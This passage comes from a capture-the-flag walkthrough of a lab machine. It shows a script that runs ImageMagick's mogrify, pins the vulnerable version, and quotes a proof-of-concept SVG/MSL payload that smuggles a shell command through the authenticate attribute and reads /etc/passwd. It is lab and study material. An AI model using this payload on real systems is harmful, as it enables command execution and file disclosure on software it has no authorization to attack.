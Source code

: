 This is the only file in the date range. Let's have a look:

```text
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

## Mogrify

Just a simple script using mogrify from ImageMagick to convert any found files to png. See the docs [here](https://imagemagick.org/script/mogrify.php) and also [this](https://unix.stackexchange.com/questions/391651/find-gif-jpeg-files-with-png-extension-and-convert-to-png) thread gave me a clue.

Let's look at mogrify:

```text
www-data@meta:/usr/local/bin$ mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

## Imagemagick Shell Injection

The version here is 7.0.10. I found [this](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) that tells us that ImageMagick version is vulnerable.

Scrolling all the way down to the end of that article there is a proof of concept:

```html
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

I created a file on the box called poc.svg and put the above in it. The only thing I changed was the path for the file that will be created:

```html
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
```

Check file is here:

```text
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 www-data www-data  407 Jan 23 13:35 poc.svg
```
